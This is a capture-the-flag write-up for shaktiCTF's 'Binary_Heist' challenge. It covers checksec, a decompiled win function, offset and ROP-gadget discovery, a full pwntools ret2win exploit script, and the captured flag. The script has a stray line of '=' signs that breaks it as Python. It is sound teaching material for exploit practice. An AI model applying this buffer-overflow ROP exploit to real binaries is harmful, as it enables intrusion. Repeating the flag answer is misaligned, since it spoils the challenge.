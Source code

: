 # Binary_Heist

**Description**:  
Welcome `Agent 007`, infiltrate the vault and succeed in the greatest binary heist in history.

**Author:  [Ath3n1x](https://twitter.com/Ath3n1x)**

**Solution**: 
Looks like Agent 007 is back. Ok, It's `checksec` time:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
`No PIE and Partial RELRO`, so options like ret2win and got overwrite might be possible. `No canary` also.

Now lets try running the binary:
```
Agency: Welcome, Agent 007. Your mission is to infiltrate the enemy vault.
System: Enter your name for log: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
System: Log entry successful! You will be granted access on entering the correct passcodes.
Segmentation fault (core dumped)
```

Ok so we can overflow the buffer. Lets look at the binary in ida/ghidra. There seems to be a win function called `infiltrate`:
```
void infiltrate(long param_1,long param_2)

{
  undefined8 local_16;
  undefined4 local_e;
  undefined2 local_a;
  
  local_16 = 0x6c75617620746163;
  local_e = 0x78742e74;
  local_a = 0x74;
  if ((param_1 == L'\x1337c0d3') && (param_2 == L'\xacedc0de')) {
    puts("System: Operation Binary Heist - Top-Secret Flag:");
    system((char *)&local_16);
  }
  else {
    puts("WARNING: Intruder!!!. Authorities have been warned.");
  }
  return;
}
```

Yep, its a ret2win with arguments. Now we can hand everything over to gdb.

**TODO**:
*1. ~~Find offset~~*
```
pwndbg> cyclic -l daaaaaaa
Finding cyclic pattern of 8 bytes: b'daaaaaaa' (hex: 0x6461616161616161)
Found at offset 24
```
                            So a padding of length: 24.


*2. ~~Find suitable gadget~~*    
```
$ ROPgadget --binary binary_heist | grep "pop rdi"
0x0000000000401207 : pop rdi ; pop rsi ; ret
```

*3. ~~Get address of win function~~*

`0x0000000000401243  infiltrate`


*4. ~~Craft payload~~*

`payload = offset + p64(pop_rdi_rsi_ret) + p64(0x1337c0d31337c0d3) + p64(0xacedc0deacedc0de) + p64(0x401243)`

**Exploit:**
```
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
b *main
b *input
b *infiltrate
continue
'''.format(**locals())

exe = './binary_heist'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

===========================================================

offset = b'a'*24

#io = remote("13.234.11.113",31491)
io = start()

io.recvuntil('log:')

pop_rdi_rsi_ret = 0x401207

print(elf.functions.infiltrate)

payload = offset + p64(pop_rdi_rsi_ret) + p64(0x1337c0d31337c0d3) + p64(0xacedc0deacedc0de) + p64(0x401243) 

io.sendline(payload)

io.interactive()
```

On running the script:
```
[DEBUG] Received 0x2b bytes:
    b'shaktiCTF{C0ngr4t5!_n0w_s1ng_0_b3ll4_c140}\n'
shaktiCTF{C0ngr4t5!_n0w_s1ng_0_b3ll4_c140}
```

:thumbsup: Success


Flag: `shaktictf{C0ngr4t5!_n0w_s1ng_0_b3ll4_c140}`   
